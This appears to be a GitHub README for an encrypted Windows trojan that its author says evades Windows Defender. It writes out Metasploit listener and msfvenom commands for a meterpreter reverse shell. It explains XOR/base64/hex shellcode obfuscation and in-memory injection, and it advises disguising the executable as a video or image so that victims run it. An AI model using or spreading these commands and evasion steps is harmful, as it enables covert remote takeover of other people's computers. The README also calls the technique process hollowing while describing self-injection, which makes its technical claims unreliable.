 # Encrypted Trojan with Process Hollowing (Undetected)
Encrypted malware using process hollowing, it creates a shell injecting shellcode which is encrypted using xor, base64 and hexadecimal encoding. Undetected by Windows defender as of 2025.

# 💻 Code
Simple shellcode execution technique in which the payload is decrypted, copied into memory, and executed in the same process without writing it into disk. Similar to my other trojan, [Self injection](https://github.com/Hue-Jhan/Encrypted-Trojan-Undetected), but slightly different.

### Listener and payload:
First, on the attacker's machine i used the classic multi handler exploit to run the payload: 

``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

The payload is, as i said before, a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:

``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked. Once the victim runs the exe, a new session will pop up on metasploit, where you can create a shell and work towards privilege escalation.

###  Encrypter:

The encryptor takes the shellcode (which in the code i uploaded is just a windows message box that says xd lol) and obfuscates it using 3 layers of encryption:
- First we encode binary data into a Base64 representation, use a custom base64_chars set instead of the standard Base64 alphabet to add obfuscation;
- Secondly we apply XOR encryption on it using a single-byte key, XOR encryption is symmetric so it can be decrypted by applying the same key;
- Then we convert the binary data into its hexadecimal string representation and we get the final encrypted shellcode.

###  Injector:

The actual injection process works like this:
- First we decode the shellcode by doing the opposite of what we did in the encrypter code, make sure to use the same xor key;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then we copy the shellcode into the newly allocated memory and we make sure that the allocated memory has the correct permissions to execute the shellcode;
- It creates a new thread at the address of ```allocated_mem```, which contains and executes the shellcode as if it were a normal function.

Finally we wait for the created thread to finish executing before freeing the memory and the buffers.

# 🛡 AV Detection

<img align="right" src="media/hsav1.png" width="230" />

Just like my previous trojans, it's currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.
Again Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft recognizes the malware.... it should be the exact opposite but idk.
